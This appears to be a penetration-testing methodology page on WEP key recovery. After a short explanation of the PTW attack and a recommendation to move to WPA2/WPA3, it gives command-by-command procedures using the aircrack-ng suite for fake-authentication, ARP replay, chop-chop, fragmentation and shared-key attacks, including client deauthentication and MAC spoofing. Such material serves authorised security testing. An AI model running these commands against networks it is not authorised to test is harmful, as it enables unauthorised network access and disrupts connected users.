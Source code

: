 ### PTW Attack (WEP Cryptographic Exploitation) 
An attacker can recover the WEP keys with relatively few packets. The Pychkine, Tews, Weinmann (PTW) attack utilizes ARP response data and recognizes over 5.5 million weak initialization vectors (IV), leading to WEP key recovery. Collecting 85,000 data frames provides a reasonable probability of success for crucial recovery and can be completed in a few minutes. 

Recommendations: WEP is flawed because it only encrypts data packets and uses the stream cipher RC4. REDSEC recommends implementing a more robust security protocol like WPA2 or WPA3.

WEP Attack Process:

    1. Check the SSID and analyze whether SSID is Visible or Hidden.
    2. Check for networks using WEP encryption.
    3. If you find the SSID as visible mode then try to sniff the traffic and check the packet capturing status.
    4. If the packet has been successfully captured and injected then it’s time to break the WEP key - Aircrack-ng or WEPcrack.
    5. If packets are not reliably captured then sniff the traffic again and capture the Packet.
    6. If SSID is in 'Hidden' mode, then Deauthenticate the target client - Commview and Airplay-ng.
    7. Once successfully authenticated with the client and the discovered SSID, then follow the above steps to rediscover other SSIDs.
    8. Check if the Authentication method used is OPN (Open Authentication) or SKA (Shared Key Authentication). 
        If SKA is used, then bypassing mechanism needs to be performed.
        
    9. Check if the STA (stations/clients) are connected to the AP. This information is necessary to perform the attack.
       - If clients are connected - an Interactive packet replay or ARP replay attack needs to be performed to gather 
           IV packets which can be then used to crack the WEP key.
           
       - If there’s no client connected to the AP, Fragmentation Attack or Korex Chop Chop attack needs to be performed 
           to generate the keystream which will be further used to reply to ARP packets.
           
    10. Once the WEP key is cracked, connect to the network using WPA-supplicant and check if the AP is allotting any IP addresses.

Fake Authentication Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
    5. aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
    6. aircrack-ng –b <BSSID> <PCAP_of_FileName>
    Other tools that could be used: 
        wifite & Airgeddon.sh (All Attacks in one tool (Replay, Chopchop, Fragment, Hirte, P0841, Caffe-latte)

ARP Replay Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
    5. aircrack-ng –b <BSSID> <PCAP_of_FileName>

Chop Chop Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
    5. aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
     #Press ‘y’ ;
    6. packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
    7. aireplay-ng -2 –r <FileName2> wlan0mon
    8. aircrack-ng <PCAP_of_FileName>

Fragmentation Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
    5. aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
    6. #Press ‘y’ ;
    7. packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
    8. aireplay-ng -2 –r <FileName2> wlan0mon
    9. aircrack-ng <PCAP_of_FileName>

SKA (Shared Key Authentication) Type Cracking:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
    4. ifconfig wlan0mon down
    5. macchanger –-mac <VictimMac> wlan0mon
    6. ifconfig wlan0mon up
    7. aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
    8. aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
    9. aircrack-ng <PCAP_of_FileName>
